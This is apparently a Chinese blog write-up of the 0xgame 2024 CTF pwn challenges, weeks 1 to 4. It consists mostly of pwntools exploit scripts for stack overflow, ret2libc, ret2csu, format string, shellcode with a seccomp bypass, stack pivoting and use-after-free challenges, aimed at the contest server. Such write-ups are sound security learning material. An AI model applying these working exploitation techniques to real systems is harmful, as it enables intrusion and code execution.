









# 0xgame 2024


一个很不错的新生赛

# 0xgame week1

真的很简单，一天就把pwn week1给ak了😊

#### ***[Week 1] 0. test your nc\***

太简单了，略

#### ***[Week 1] 1. test your pwntools\***

大概就是，接收收到的算式然后立刻返回答案，上代码

```
from pwn import *
io = remote('47.97.58.52',40010)
context.log_level = 'debug'   
while(1):
   io.recvuntil(b'=\n')
   result = io.recvuntil(b' = ',drop=True).decode().replace('\n','').replace('/','//')
   result = str(eval(result)).encode()
   io.sendline(result)
io.interactive()
```

#### ***[Week 1] 2. stack overflow\***

ida反编译如下：


注意语句 signal(11,getflag); 其中getflag只会给你半个flag，所以需要绕过11号报错，即sigment fault。加俩ret指令就可，所以代码如下。

```
from pwn import *
io = remote('47.97.58.52',40001)
elf = ELF('./pwn1')
context(os = 'linux',arch = 'amd64',log_level = 'debug')
io.recvuntil(b'her:\n')
io.send(b'A'*32 + p64(0x40101a) + p64(0x40101a) + p64(0x4012BD))
io.interactive()
```

#### ***[Week 1] 3. positive\***


显然是个整数溢出题，溢出整数buf为‘-1’因为类型转换的问题nbytes比较会失效，造成最后read函数存在栈溢出漏洞，直接给代码

```
from pwn import *
io = remote('47.97.58.52',40002)
#io = process('./pwn2')
context(os = 'linux',arch = 'amd64',log_level = 'debug')
io.recvuntil(b'walk:\n')
io.send(b'-1')
#gdb.attach(io)
#pause()
io.recvuntil(b'walking:')
io.send(b'A'*56 +p64(0x40101a) + p64(0x40126A))
io.interactive()
```

#### ***[Week 1] 4. find_me\***

main函数如下


do_bad()函数如下


通过时间为种子生成随机数，打开v4次fake_flag，每次打开都会使新产生的文件描述符增加1，所以我们需要绕过随机数，然后在do_bad()函数中，将正确的文件描述符“找出来”，将flag写入&what，再从&what读出来

这时候需要用到ctypes库了

ctypes 是Python的外部函数库。它提供了C兼容 数据类型，并允许调用 DLL 或共享库中的函数。它可以是 用于将这些库包装在纯Python中.

我们使用语句

```
libc = cdll.LoadLibrary('libc.so.6')#这里的libc.so.6应该可以不是固定的，只要解决问题用哪个都行。
```

这行代码使用 ctypes 库中的 cdll.LoadLibrary 函数加载了 /bin/x86_64-linux-gnu/libc.so.6 路径下的共享库，并将其赋值给了变量 libc。这样，你就可以使用 libc 变量来访问该共享库中的函数。
***也就是说，我们能用python代码调用libc中的函数\***，那么也就是说，***只要我们模仿程序里的代码，就可以生成出同样的随机数，来达到“相同的随机数”的效果，“找到”需要的flag\***

代码如下

```
from pwn import *
from ctypes import *
io = remote('47.97.58.52',40003)
#io = process('./pwn4')
elf = ELF('./pwn4')
context(os = 'linux',arch = 'amd64',log_level = 'debug')
libc = cdll.LoadLibrary('libc.so.6')
libc.srand(libc.time(0))
a = libc.rand()
b = a%100
b = b + 3
io.sendline(b'0')
sleep(0.3)
io.sendline(str(b).encode())
sleep(0.3)
io.sendline(b'1')
sleep(0.3)
io.sendline(b'2')
io.interactive()
```

#### ***[Week 1] 5. where_is_my_binsh\***

很简单的栈溢出

```
from pwn import *
#io = process('./pwn3')
io = remote('47.97.58.52',40004)
elf = ELF('./pwn3')
sys_plt = elf.plt['system']
binsh_addr = 0x404090
pop_rdi_ret = 0x401323
io.send(b'/bin/sh\x00')
io.send(b'A'*24 + p64(pop_rdi_ret) + p64(binsh_addr) + p64(0x40101a) + p64(sys_plt))
io.interactive()
```

#### ***[Week 1] 6. ret2csu\***


题目中发现了execve的got表

ret2csu就是用loc_4013B6的gadget将需要的参数压入r12,r13,r14,r15

公式是：rbx=0, rbp=1, r12=args1, r13=args2, 

r14=args4, r15=execve.got, last = loc_4013A0

这样我们就可以通过loc_4013B6和loc_4013A0调用execve函数了

```
from pwn import *
#io = process('./pwn5')
io = remote('47.97.58.52',40005)
elf = ELF('./pwn5')
io.send(b'/bin/sh\x00')
payload = b'A'*14 + b'\x00'*2 + b'B'*8 + p64(0x4013BA) + p64(0) + p64(1) + p64(0x404090) + p64(0) + p64(0) + p64(0x404038) + p64(0x4013A0) + b'A'*56
#gdb.attach(io)
#pause()
io.send(payload)
io.interactive()
```

# 0xgame week2

难度上来一点点，确实遇到了棘手一点的题，主要是代码总是不知道为什么就报错，这也算我的一个痛点把

#### [Week 2] Shellcode-lv0


其实这个随机数没啥用，我们只需要在payload右边填满\x90(NOP），这样程序执行流就会被“滑下来”，多试几次就通了

```
from pwn import *
context(os='linux',arch='amd64')
#io = process('./pwn00')
io = remote('47.97.58.52',42012)
payload = asm(shellcraft.amd64.sh())
print(len(payload))
payload = payload.rjust(0x100,b'\x90')
io.send(payload)
#gdb.attach(io)
#pause()
io.interactive()
```

#### [Week 2] Shellcode-lv1


不能使用execve，但是可以ORW一把梭


```
from pwn import *
#io = process('./shellcode_1')
io = remote('47.97.58.52',42013)
context(os='linux',arch='amd64',log_level='debug')
addr = 0x20240500
payload = shellcraft.amd64.open("./flag")
payload += shellcraft.amd64.read(3,addr,0x30)
payload += shellcraft.amd64.write(1,addr,0x30)
print(len(payload))
payload = asm(payload)
payload = payload.rjust(0x100,b'\x90')
io.send(payload)
io.interactive()
```

#### [Week 2] ez_format


因为这道题开了pie，所以没法直接读取flag的内容，需要泄露栈里地址并且加上偏移来得到&flag的数值，因为很简单，所以直接上代码

```
from pwn import *
#io = process('./pwn22')
io = remote('47.97.58.52',42001)
context(os = 'linux',arch = 'amd64',log_level = 'debug')
#gdb.attach(io)
#pause()
io.send(b'%9$p')
io.recvuntil(b'Shanghai!\n')
a = int(io.recv(14).decode(),16)
print(hex(a))
addr = a - 0x1140 + 0x40c0
print(hex(addr))
payload = b'%7$s'.ljust(8,b'\x00')
io.sendafter(b'something:',payload + p64(addr))
flag = io.recv()
print(flag)
io.interactive()
```

#### [Week 2] fmt2shellcode


可以看到，我们需要满足key==26318864这个条件才能得到shell，但是有几个问题

1.这题开了pie（需要提前泄露栈内的地址

2.read一次读取0x20个数据（代表没法用fmtstr_payload一把梭，需要手搓

3.诸如%xxxc%y$n的长度超过了8，也就是说，需要将地址放在后面两个字长的偏移而不是一个字长

所以代码如下

```
from pwn import *
#io = process('./fmt20')
io = remote('47.97.58.52',42002)
context(os = 'linux',arch='amd64',log_level = 'debug')

io.sendafter(b'something:',b'%9$p')
io.recvuntil(b'Shanghai!\n')
a = int(io.recv(14).decode(),16)
addr = a - 0x1140 + 0x4068
print(hex(addr))
keys = 0x1919810 
#gdb.attach(io)
#pause()
payload = b'%16c%8$hhn'.ljust(16,b'\x00') + p64(addr)
io.sendlineafter(b'something:',payload)

payload = b'%152c%8$hhn'.ljust(16,b'\x00') + p64(addr+1)
io.sendlineafter(b'something:',payload)

payload = b'%145c%8$hhn'.ljust(16,b'\x00') + p64(addr+2)
io.sendlineafter(b'something:',payload)

payload = b'%1c%8$hhn'.ljust(16,b'\x00')  + p64(addr+3)
io.sendlineafter(b'something:',payload)
payload = b'%7$s'.ljust(8,b'\x00')
io.sendafter(b'something:',payload + p64(addr))
io.sendafter(b'something:',b'stop\x00')
payload1 = asm(shellcraft.amd64.sh())
io.send(payload1)
io.interactive()
```

#### [Week 2] ret2libc


先泄露puts.got,然后打ret2libc

```
from pwn import *
#io = process('./pwn11')
io = remote('47.97.58.52',42003)
context(os='linux',arch='amd64',log_level = 'debug')
elf = ELF('./pwn11')
libc = ELF('libc.so.6')

pop_rdi_ret = 0x4012c3
vuln = 0x401205
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
ret = 0x40101a

payload = b'A'*40 + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(vuln)
io.send(payload)
io.recvuntil(b'?\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))
libc_b = puts_addr - libc.symbols['puts']
sys_a = libc_b + libc.symbols['system']
bin_a = libc_b + next(libc.search(b"/bin/sh\x00"))
#gdb.attach(io)
#pause()
payload = b'A'*40 + p64(ret) + p64(pop_rdi_ret) + p64(bin_a) + p64(sys_a)
io.send(payload)
io.interactive()                   
```

#### [Week 2] boom


爆破法，strcmp会被00截断，我们可以写脚本爆破这种情况,第一次做这种题，感觉还挺好玩的

```
from pwn import *
def h():
   io.recvuntil(b'thinking?\n')
   io.send(b'\x00'*0x31)
   a = io.recv()
   print(a)
   if b'WOW' in a:
      io.interactive()

while True:
    try:
       io = remote('47.97.58.52',42000)
       h()
    except:
       io.close()
```


#### [Week 2] SROP

这题之后会放在SROP栏目里讲解

#### [Week 2] Syscall playground


如上图，直接把/bin/sh\x00写入buffer然后执行execve(buf_addr,0,0)即可

```
from pwn import *
#io = process('./syscall')
io = remote('47.97.58.52',42010)
context(os = 'linux',arch = 'amd64',log_level = 'debug')

io.sendlineafter(b'choice: ',b'1')
io.recvuntil(b' located at ')
addr = int(io.recvuntil(b'\n',drop = True).decode(),16)
print(addr)
io.sendlineafter(b'Input your data: ',b'/bin/sh\x00')

io.sendlineafter(b'choice: ',b'3')
io.sendlineafter(b'call: ',b'59')
io.sendlineafter(b'Input the arguments count: ',b'3')
io.sendlineafter(b'Input the argument 0:',str(addr).encode())
io.sendlineafter(b'Input the argument 1:',b'0')
io.sendlineafter(b'Input the argument 2:',b'0')
io.interactive()                
```

总结：其实week2还是很简单的，但也确实有些很难见到的题型

# 0xgame week3

week3真的上难度了，看一上午有头绪的俩题进度都不快，还有一个题是关于非栈上格式化字符串的，太复杂了我甚至都不想看

#### [Week 3] where_is_my_stack

让我想到了moe的travel of stack那题。所以临时翻了一下moe的题解，终于搞明白了,这题是关于多次栈迁移的。

什么是多次栈迁移，如何多次栈迁移呢？我们需要利用read函数的汇编代码来分析：
***多次栈迁移一般用于需要泄露libc地址或者只有一次输入的时候\***



我们可以看到read的第二个参数rsi是由rax赋值的，rsi应该存储我们buf的地址，而这个buf地址是由***lea rax,[rbp + buf]\***确定的，也就是说，***我们buf存储我们输入的地址是由rbp确定的！\***

那么如果我们第一次传入payload0=padding + bss_fake_stack + read_addr

我们的rbp会被移动到bss_fake_stack,而rsp依旧停留在栈内，接下来程序会调用read，而read存储我们输入的地址buf_addr又是由rbp决定，也就是说，我们的输入会被放在bss段内，接下来执行完read后还会执行leave_ret，而我们需要做的就是把rbp再次迁移到我们输入的代码中进行。下面放一个板子

```
payload 0 = padding + bss_addr + read_addr
paylaod n = next_rbp(addr1) + shellcode + padding + read_addr + addr1(bss_addr) + leave_ret_addr
```

分析：

1.payload0会把rbp送到bss_addr,而rsp依旧停留在栈内

2.执行完read函数后rbp被弹到我们输入到bss_addr处的addr1，而rsp被移动到bss_addr,紧接着执行我们传入的leave-ret-addr使rbp被移动到next_rbp，rsp又再次移动到之前rbp的位置+1即&shellcode，然后执行我们的shellcode进而再通过read进行下一次跳转

于是我们来看题，vuln函数如下：return read(0,buf,0x30uLL);



这道题的难点主要在read只读入0x30字节

按照正常泄露地址的流程：

payload = next_rbp + pop_rdi_ret + puts_got + puts_plt + read_addr + bss-0x20 + leave_ret一共会有0x38个字节。

经过网上信息检索和出题人的提示，原来这题可以通过往上迁移八字节来写入

我们可以多构造一次read函数来栈迁移，这次栈迁移的效果主要是将read计算的buf往上抬8字节，如下

***(bss_fake_stcak+8)+ read_addr + ret + ret + bss-0x20 + leave_ret\***

这样，rbp会被迁移到bss_fake_stack+8,而下次读入的&buf2 = &buf1 + 8，我们输入的第一个字长会在之前的read_addr处！

也就是说我们可以不传入bss_fake_stack(也就是板子里的next_rbp,这样就可以少写一个字长

所以我们可以给出代码！！！

```
from pwn import *
io = process('./pwn')
#io = remote('47.97.58.52',43001)
elf = ELF('./pwn')
libc = ELF('libc.so.6')
context(os = 'linux',arch ='amd64',log_level = 'debug')
puts_got = 0x404018
puts_plt = 0x401070
leave_ret = 0x401234
pop_rdi = 0x4012c3
ret = 0x40101a
bss = 0x404800
read = 0x40121D
payload = b'a'*0x20 + p64(bss) + p64(read)
gdb.attach(io)
pause()
io.sendafter(b'but not stack ~\n',payload)
payload1 = p64(bss+0x8) + p64(read) + p64(0)*2+ p64(bss-0x20) + p64(leave_ret)
io.send(payload1)
payload2 =p64(pop_rdi) + p64(puts_got) + p64(puts_plt) +p64(read) + p64(bss-0x20) + p64(leave_ret)
io.send(payload2)
k = u64(io.recvuntil(b'\n',drop = True).ljust(8,b'\x00'))
print(hex(k))
libc_base = k - libc.symbols['puts']
sys_addr = libc_base + libc.symbols['system']
bin_addr = libc_base + next(libc.search(b"/bin/sh\x00"))
payload3 = p64(ret)*3 + p64(pop_rdi) + p64(bin_addr)  + p64(sys_addr)
io.send(payload3)
io.interactive()
```

经过gdb调试，发现最后rsp在0x404800(我也不清楚为什么）,所以payload3需要填充3个ret ,所以多次栈迁移真的十分依赖gdb的调试。

#### [Week 3] Shellcode-lv2

从这题看出来我的shellcode编写能力实在差劲。。。

题目逻辑如下，输入的内容中不能包含\xf\x5也就是指令syscall。

首先先考虑这题如何做，看到题目开了沙箱，只能使用ORW，但是10字节肯定不够执行ORW，所以要先构造一次read读入shellcode，shellcode就存在之后的buf里继续执行



但是syscall被禁了，如何绕过呢？于是有以下方法：

1.构造一个0xf05(通过运算得出），并将其储存在寄存器中，最后call 这个寄存器。

2.利用mov byte ptr [addr],5将5写入buf之后的内存

3.使用int 0x80

由于第一次读入的数据太少了只有0x10，所以考虑用方法二，所以我们需要构造一个15字节长的shellcode，然后再单独把\x0f传进去，最后mov byte ptr [addr],5会将\x05也写进去达到攻击目的。


于是我们可以给出exploit：

```
from pwn import *
#io = process('./pwn1')
io = remote('47.97.58.52',43010)
elf = ELF('./pwn1')
context(os = 'linux',arch = 'amd64')
read_shell = """
xor rdi, rdi
mov rsi,0x20240011
nop
mov byte ptr[rdx+16],5
"""
#gdb--rax=0,rdx=0x20240000
print(len(asm(read_shell)))
payload = asm(read_shell) + b'\x0f'
#gdb.attach(io)
#pause()
io.sendafter(b'Show me what you want to run: ',payload)
addr = 0x20240500
payload1 = shellcraft.amd64.open("./flag")
payload1 += shellcraft.amd64.read(3,addr,0x30)
payload1 += shellcraft.amd64.write(1,addr,0x30)
io.send(asm(payload1))
io.interactive()               
```

#### [Week 3] fmt2orw

主函数逻辑


say()：


seccomp规则：只允许open，read，write，mprotect


所以这题该怎么打呢。。。原来是非栈上格式化字符串，具体知识点就不介绍了，非栈上格式化字符串还是很好理解的，就是没法任意地址写和任意地址读。

这题需要做的是orw，但是buf又没执行权限，但是我们看到程序里有：



但是这题开了pie，因此做题步骤就很清晰了：

先搭链子==>泄露main地址==>把ret_addr改为what_addr==>把下一个字节改为shellcode的地址，最后直接传入stop + shellcode达成攻击，exp如下：

```
from pwn import *
#io = process('./fmt2')
io = remote('47.97.58.52',43000)
context(os = 'linux',arch = 'amd64',log_level = 'debug')
io.sendafter(b'Say something:',b'%11$p')
io.recvuntil(b'Shanghai!\n0x')
addr = int(io.recvuntil(b'Shanghai!\n',drop=True).decode(),16)
ret_a = addr - 0xe08 + 0xd08
print(hex(ret_a))
io.sendafter(b'Say something:',b'%7$p')
io.recvuntil(b'Shanghai!\n0x')
addr = int(io.recv(12).decode(),16)
what = addr - 0x50 -0x151 +  0xA3
print(hex(what))
payload1 = b'%' + str(ret_a & 0xffff).encode() + b'c%11$hn' + b'\x00'
#gdb.attach(io)
#pause()
io.sendafter(b'Say something:',payload1)
#0x27 = 39
payload0 = b'%' + str(what & 0xffff).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload0)

payload1 = b'%' + str(ret_a+8 & 0xffff).encode() + b'c%11$hn' + b'\x00'
io.sendafter(b'Say something:',payload1)
payload2 = b'%' + str(0x4010).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload2)
payload3 = b'%' + str(ret_a+10 & 0xffff).encode() + b'c%11$hn' + b'\x00'
io.sendafter(b'Say something:',payload3)
payload4 = b'%' + str(0x1451).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload4)
payload5 = b'%' + str(ret_a+12 & 0xffff).encode() + b'c%11$hn' + b'\x00'
io.sendafter(b'Say something:',payload5)
payload6 = b'%' + str(0x0001).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload6)

get_shell = b'stop\x00'
get_shell = get_shell.ljust(16,b'\x00')
addr = 0x114514170
payload7 = shellcraft.amd64.open("./flag")
payload7 += shellcraft.amd64.read(3,addr,0x30)
payload7 += shellcraft.amd64.write(1,addr,0x30)
payload7 = asm(payload7)
get_shell = get_shell + payload7
io.sendafter(b'Say something:',get_shell)
io.interactive()            
```

总体来说，week3还是挺难的，但是还好就三道题，三天干掉嘿嘿嘿。

# 0xgame week4

#### [Week 4] UAF



经典菜单题，没有后门函数，所以考虑用onegadget打malloc_hook



dele函数有uaf漏洞

直接通过unsorted bins泄露libc基址然后打uaf劫持malloc

上代码

```
from pwn import *
#io = process('./uaf')
io = remote('47.97.58.52',44000)
libc = ELF('libc.so.6')
context(os = 'linux',arch='amd64',log_level='debug')
def add(index,size,content):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter index: ',str(index).encode())
    io.sendafter(b'Enter size: ',str(size).encode())
    io.sendafter(b'Enter data: ',content)
def dele(index):
    io.sendafter(b'>> ',b'2')
    io.sendafter(b'Enter index: ',str(index).encode())
def show(index):
    io.sendafter(b'>> ',b'3')
    io.sendafter(b'Enter index: ',str(index).encode())
def edit(index,content):
    io.sendafter(b'>> ',b'4')
    io.sendafter(b'Enter index: ',str(index).encode())
    io.sendafter(b'Enter data: ',content)
add(8,0x100,p64(0))
for i in range(7):
   add(i,0x100,p64(0))
for i in range(7):
   dele(i)
dele(8)
#gdb.attach(io)
#pause()
show(8)
io.recvuntil(b'Data: ')
addr = u64(io.recvuntil(b'\n',drop = True).ljust(8,b'\x00'))
libc_base = addr - 0x7d43a8121be0 + 0x7d43a7f35000
print(hex(libc_base))
malloc_hook = libc_base + libc.symbols['__malloc_hook']
add(9,0x70,p64(0))
add(10,0x70,p64(0))
add(11,0x70,p64(0))
dele(9)
dele(10)
dele(11)
edit(11,p64(malloc_hook))
gadget1 = libc_base + 0xe3afe
gadget2 = libc_base + 0xe3b01
add(12,0x70,b'12')
add(13,0x70,p64(gadget2))
print(hex(malloc_hook))
print(hex(gadget1))
#gdb.attach(io)
#pause()
io.sendafter(b'>> ',b'1')
io.sendafter(b'Enter index: ',b'14')
io.sendafter(b'Enter size: ',b'0x70')
io.interactive()
```
